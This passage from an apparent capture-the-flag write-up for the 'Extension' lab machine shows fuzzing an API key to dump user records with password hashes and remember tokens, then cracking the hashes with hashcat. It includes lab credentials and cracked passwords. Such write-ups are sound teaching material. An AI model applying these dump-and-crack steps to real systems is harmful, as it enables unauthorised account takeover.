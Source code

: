 The key **download** returns _"Unknown tablename"_ while all other keys return _"Missing arguments"_, we've got something! 
Lets continue to fuzz the value field and we quickly find the variable _users_, from which we extract 800+ users with their password hash.

![[/assets/images/htb-writeup-extension/extension06.png]]


### Step 2
Copy all json data to file and format it using `json.tool`:
```bash
➜  extension python3 -m json.tool temp_download_users.json > snippet_users.json
```

Looking for high value targets we find that `Charlie` is the only _manager_ on the site:
```bash
➜  extension cat snippet_users.json | grep -B10 Manager
[
    {
        "id": 1,
        "name": "Charlie Rooper",
        "email": "charlie@snippet.htb",
        "email_verified_at": "2022-01-02 20:12:46",
        "password": "30ae5f5b247b30c0eaaa612463ba7408435d4db74eb164e77d84f1a227fa5f82",
        "remember_token": "T8hTcYuS7ULTi73eYg7ZHhncyNucDKQb3VaUDfcotdEGaDESr3YsP9xUlJEQ",
        "created_at": "2022-01-02 20:12:47",
        "updated_at": "2022-06-20 14:46:28",
        "user_type": "Manager"
```

Jean that we also found earlier is a member, her hash/token/information might come in handy later on.
```bash
➜  extension cat snippet_users.json | grep -a10 jean
    {
        "id": 664,
        "name": "Jean Castux",
        "email": "jean@snippet.htb",
        "email_verified_at": "2022-01-02 20:15:30",
        "password": "7f13a99efb779ebbe57cbca71dfac6334dd7e3e6345a353d74912e9843f918b6",
        "remember_token": "naXzYffXKP",
        "created_at": "2022-01-02 20:15:37",
        "updated_at": "2022-01-02 20:15:37",
        "user_type": "Member"
    },
```

Trying to crack all hashes we only get one hit:
```bash
➜  extension grep password snippet_users.json | awk -F\" '{print $4}' > tmp_hashes
➜  extension grep 'email"' snippet_users.json | awk -F\" '{print $4}' > tmp_email
➜  extension paste -d ":" tmp_email tmp_hashes > snippet_users.hash

➜  extension hashcat -a0 -m1400 snippet_users.hash /usr/share/wordlists/rockyou.txt --user
[... snip ...]
ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123

➜  extension hashcat -a0 -m1400 snippet_users.hash /usr/share/wordlists/rockyou.txt --user --show
letha@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
fredrick@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
gia@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
juliana@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
```
